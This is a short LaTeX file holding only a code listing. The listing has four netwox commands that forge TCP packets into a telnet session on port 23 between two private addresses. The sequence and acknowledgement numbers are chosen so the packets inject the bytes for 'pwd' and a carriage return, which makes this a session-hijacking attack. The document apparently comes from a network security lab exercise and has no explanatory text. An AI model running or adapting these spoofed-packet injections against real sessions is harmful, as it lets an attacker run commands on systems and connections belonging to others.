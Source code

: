 \documentclass[12pt]{article}
\begin{document}
\begin{lstlisting}
netwox 40 --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-protocol 6 --ip4-src 192.168.121.129 --ip4-dst 192.168.121.130 --tcp-src 53022 --tcp-dst 23 --tcp-seqnum 1737301455 --tcp-window 6912 --tcp-data "70"
netwox 40 --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-protocol 6 --ip4-src 192.168.121.129 --ip4-dst 192.168.121.130 --tcp-src 53022 --tcp-dst 23 --tcp-seqnum 1737301456 --tcp-acknum 4197381889 --tcp-ack --tcp-window 6912 --tcp-data "77"
netwox 40 --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-protocol 6 --ip4-src 192.168.121.129 --ip4-dst 192.168.121.130 --tcp-src 53022 --tcp-dst 23 --tcp-seqnum 1737301457 --tcp-acknum 4197381890 --tcp-ack --tcp-window 6912 --tcp-data "64"
netwox 40 --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-protocol 6 --ip4-src 192.168.121.129 --ip4-dst 192.168.121.130 --tcp-src 53022 --tcp-dst 23 --tcp-seqnum 1737301458 --tcp-acknum 4197381891 --tcp-ack --tcp-window 6912 --tcp-data "0d00"
\end{lstlisting}
\pagebreak
\end{document}
